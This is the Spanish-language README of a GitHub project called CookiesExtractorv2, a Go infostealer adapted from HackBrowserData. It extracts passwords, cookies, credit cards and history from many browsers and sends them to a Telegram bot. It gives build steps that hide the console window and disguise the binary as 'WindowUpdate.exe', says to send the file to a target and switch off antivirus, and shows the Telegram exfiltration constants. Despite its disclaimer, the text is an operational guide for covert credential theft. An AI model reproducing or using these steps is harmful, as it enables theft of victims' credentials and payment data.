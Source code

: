 <h1>CookiesExtractorv2</h1>
CookiesExtractorv2 es una herramienta desarrollada en Go diseñada para extraer datos sensibles de navegadores web (contraseñas, historial, cookies, marcadores, tarjetas de crédito, historial de descargas, localStorage y extensiones). A diferencia de la herramienta base, esta versión opera de forma discreta en segundo plano, recolecta los datos extraídos y los envía automáticamente a un bot de Telegram configurado. Soporta los navegadores más populares en Windows, macOS y Linux, e incluye mecanismos para su persistencia y ocultamiento en el sistema objetivo.
  
> Advertencia Importante:
Esta herramienta es una modificación del proyecto original HackBrowserData y ha sido configurada para operar de manera autónoma, recolectando datos de navegación y enviándolos a un destino remoto (Telegram). Su uso implica la extracción y transmisión de información sensible del sistema donde se ejecuta. Esta herramienta está destinada EXCLUSIVAMENTE para fines de investigación de seguridad y pruebas de penetración ÉTICAS en entornos controlados y con el CONSENTIMIENTO EXPLÍCITO Y DOCUMENTADO del propietario del sistema. Cualquier uso no autorizado de este software para acceder, recopilar o exfiltrar datos sin el permiso expreso del propietario del sistema es ILEGAL y NO ÉTICO. El autor y los contribuidores no asumen ninguna responsabilidad legal o moral por cualquier uso indebido o ilegal de esta herramienta.

### Navegadores Compatibles

### Windows
| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge     |    ✅     |   ✅    |    ✅     |    ✅    |
| 360 Speed          |    ✅     |   ✅    |    ✅     |    ✅    |
| QQ                 |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| OperaGX            |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| Yandex             |    ✅     |   ✅    |    ✅     |    ✅    |
| CocCoc             |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |
| Internet Explorer  |    ❌     |   ❌    |    ❌     |    ❌    |


### MacOS

Based on Apple's security policy, some browsers **require a current user password** to decrypt.

| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge     |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| OperaGX            |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| CocCoc             |    ✅     |   ✅    |    ✅     |    ✅    |
| Yandex             |    ✅     |   ✅    |    ✅     |    ✅    |
| Arc                |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |
| Safari             |    ❌     |   ❌    |    ❌     |    ❌    |

### Linux

| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge Dev |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |


## Instalación
Descarga el proyecto o clona el repositorio

```bash
$ git clone https://github.com/GrpDsG20/CookiesExtractorv2
```

### Configura tu bot de Telegram:
Antes de compilar, necesitas editar el archivo main.go en la ruta ``` cmd/hack-browser-data/main.go. ``` Busca las líneas TelegramToken y ChatID y reemplaza los valores por tu propio token de bot de Telegram y el ID de tu chat.
```bash
const (
    TelegramToken   = "TU_TOKEN_DE_BOT_AQUI" // Reemplaza esto con tu token real
    ChatID          = "TU_CHAT_ID_AQUI"     // Reemplaza esto con tu ID de chat real
    TelegramFileAPI = "https://api.telegram.org/bot%s/sendDocument"
)
```
###  Navega a la raíz de tu proyecto
```bash
$ cd CookiesExtractorv2
```

### Inicializa y limpia tu módulo (si aún no lo has hecho)
```bash
$ go mod tidy
```

###  Navega hasta este apartado
```bash
$ cd cmd\hack-browser-data
```

### Compila el ejecutable (desde la raíz del módulo)
```bash
$ go build -ldflags="-s -w -H=windowsgui" -o WindowUpdate.exe

```

### Envia el .exe por cualquier medio descargalo y ejecutalo 

> Nota: En algunas situaciones, esta herramienta de seguridad puede ser detectada como un virus por Windows Defender u otro software antivirus y no podrá ejecutarse. Es recomendable desactivar el antivirus temporalmente, como si instalaras cualquier programa "crackeado". El código es de código abierto, puedes modificarlo y compilarlo tú mismo. Ten en cuenta que esta versión modificada está diseñada para operar de forma sigilosa y enviar datos a un bot de Telegram, lo cual es la razón principal de tales detecciones.

### Compilación cruzada (Cross compile)
Aquí tienes un ejemplo de cómo usar macOS para compilar para Windows y Linux. Asegúrate de estar en la raíz de tu módulo (CookiesExtractorv2) cuando ejecutes estos comandos.

Para Windows
```bash
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w -H=windowsgui" -o WindowUpdate.exe ./cmd/hack-browser-data
```
Para Linux
```bash
GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o WindowUpdate ./cmd/hack-browser-data
```

### Ejecución
> Importante: Esta versión de la herramienta está diseñada para ejecutarse de forma sigilosa en segundo plano. Los ejemplos de comandos que se muestran a continuación corresponden al comportamiento de la herramienta original para exportación local y para fines de depuración o prueba de sus capacidades de extracción, no a la operación normal de esta versión modificada.


